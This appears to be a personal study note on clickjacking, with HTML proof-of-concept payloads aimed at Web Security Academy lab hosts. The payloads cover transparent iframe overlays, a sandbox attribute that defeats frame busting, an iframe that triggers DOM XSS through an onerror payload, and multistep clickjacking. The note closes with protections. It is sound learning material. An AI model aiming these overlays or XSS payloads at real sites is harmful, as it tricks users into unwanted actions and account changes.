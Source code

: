 >[!question] What it clickjacking?
>Clickjacking (also known as **UI redressing**) is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.

# Basic clickjacking PoC

```html
<style>
    iframe {
        position:relative;
        width:1000;
        height: 1000;
        opacity: 0.2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:520;
        left:100;
        z-index: 1;
    }
</style>
<div>Click</div>
<iframe src="https://0a17008404af04c0c03c7c5c002800f0.web-security-academy.net/my-account"></iframe>
```

The target website iframe is positioned within the browser so that there is a precise overlap of the target action with the decoy website using appropriate width and height position values. Absolute and relative position values are used to ensure that the target website accurately overlaps the decoy regardless of screen size, browser type and platform.

![](../../zzz_res/attachments/clickjacking1.png)

## Frame busting scripts with prefilled form input

Some preventative techniques are based upon restricting the framing capability for websites. Common client-side protection enacted through the web browser are to use frame busting or frame breaking scripts. These can be implemented via proprietary browser JavaScript add-ons or extensions such as NoScript.

Some common behaviors are:
- check and enforce that the current application window is the main or top window,
- make all frames visible,
- prevent clicking on invisible frames,
- intercept and flag potential clickjacking attacks to the user.

Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers.
An effective attacker workaround against frame busters is to use the HTML5 iframe `sandbox` attribute. When this is set with the `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window.

```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

PoC:
>[!note]
>to pre-fill data inside forms we can set them using query strings
```html
<style>
    iframe {
        position:relative;
        width:1000;
        height: 1000;
        opacity: 0.2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470;
        left:100;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe name="victim_frame" sandbox="allow-forms" src="https://0a61008c0335a05dc0e5e05800b700c7.web-security-academy.net/my-account?email=test@test.com"></iframe>
```

## Combining clickjacking with a DOM XSS attack

Assuming that the attacker has first identified the [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) exploit. The XSS exploit is then combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack.

```html
<iframe name="victim_frame" src="https://0a96001203426ee2c0660906001e008e.web-security-academy.net/feedback?name=<img+src+onerror=print()>&email=a@b.com&subject=xss&message=this+form+is+vulnerable+to+xss"></iframe>
```

## UI redressing and XSS

[Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) and UI redressing can be combined in order to re-define any CSS style included in the original page in order to hijack the original behavior.

In Tutanota, for example, there was no isolation between the application itself and the email body, so any CSS styles included in the email may also apply to other elements of the UI. This can be abused by an attacker to make the _Save Attachment_ button transparent and also stretch it over the whole application's UI. This form of UI redressing leaves the victim no choice but to unknowingly click the invisible button. [^tutanota]

[^tutanota]: [Paul Gerste - Remote Code Execution in Tutanota Desktop Due to Code Flaw](../../Readwise/Articles/Paul%20Gerste%20-%20Remote%20Code%20Execution%20in%20Tutanota%20Desktop%20Due%20to%20Code%20Flaw.md#^024bf8)

## Multistep clickjacking

Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes.

```html
<style>
	iframe {
		position:relative;
		width:1000;
		height: 1000;
		opacity: 0.2;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:520;
		left:80;
		z-index: 1;
	}
   .secondClick {
		top:300;
		left:200;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="https://0ad700100460cdbcc04ba431007400b0.web-security-academy.net/my-account"></iframe>
```

## Double clickjacking

[DoubleClickjacking](../../Readwise/Articles/Blog%20-%20DoubleClickjacking%20A%20New%20Era%20of%20UI%20Redressing.md) is a new type of attack that tricks users into unintentionally authorizing malicious actions by exploiting the timing of double-clicks [^1]. Unlike traditional clickjacking, this method can bypass existing protections and affect many major websites. It can lead to serious issues like account takeovers and unauthorized changes to user settings.


---

# Protections against clickjacking

- [X-Frame-Options](X-Frame-Options.md)
- [Content Security Policy (CSP)](Content%20Security%20Policy%20(CSP).md)
- [Frame busting](Clickjacking.md#Frame%20busting%20scripts%20with%20prefilled%20form%20input)

---

# Useful tools

- [Burp Clickbandit](https://portswigger.net/burp/documentation/desktop/tools/clickbandit)

[^1]: [Pierluigi Paganini - DoubleClickjacking Allows Clickjacking on Major Websites](../../Readwise/Articles/Pierluigi%20Paganini%20-%20DoubleClickjacking%20Allows%20Clickjacking%20on%20Major%20Websites.md)
